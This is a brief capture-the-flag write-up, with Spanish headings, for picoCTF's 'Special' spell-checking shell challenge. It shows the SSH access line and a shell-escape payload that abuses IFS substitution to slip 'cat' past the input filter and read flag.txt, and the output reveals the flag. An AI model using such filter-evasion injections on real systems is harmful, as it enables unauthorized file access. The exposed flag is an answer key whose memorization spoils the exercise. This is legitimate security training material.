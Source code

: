 ## Objetivo

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) Start your instance to see connection details.

## Datos de Acceso al Nivel

`ssh -p 57853 ctf-player@saturn.picoctf.net`
## Solucion

```

Special$ ls
Is 
sh: 1: Is: not found
Special$ $(IFS=];b=cat]blargh/flag.txt;$b)
$(IFS=];b=cat]blargh/flag.txt;$b) 
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_b741d1b1}: not found
Special$ 

```

## Notas Adicionales



## Referencias

https://book.hacktricks.xyz/